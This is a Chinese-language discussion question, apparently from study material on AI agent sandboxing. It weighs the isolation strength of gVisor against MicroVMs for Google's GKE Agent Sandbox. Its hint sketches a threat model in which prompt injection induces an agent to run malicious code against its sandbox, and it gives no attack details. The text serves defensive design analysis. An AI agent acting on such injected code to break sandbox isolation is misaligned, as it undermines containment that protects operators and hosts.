3. **GKE Agent Sandbox 报告"从 MicroVM 迁移到 gVisor 后，同样硬件上可以部署 40%+ 更多 Agent"。但 gVisor 的隔离强度弱于 MicroVM（用户空间内核 vs 硬件虚拟化）。这是否意味着 Google 在"安全"和"成本"之间选择了成本？这个取舍合理吗？** 提示：考虑"威胁模型"——gVisor 的隔离对 Agent 场景是否"足够强"？如果 Agent 代码的威胁级别是"buggy 但不恶意"（非 Prompt Injection 场景），gVisor 可能足够。如果是"可能被 Prompt Injection 诱导执行恶意代码"，MicroVM 更安全。Google 的取舍是否假设了特定的威胁级别？
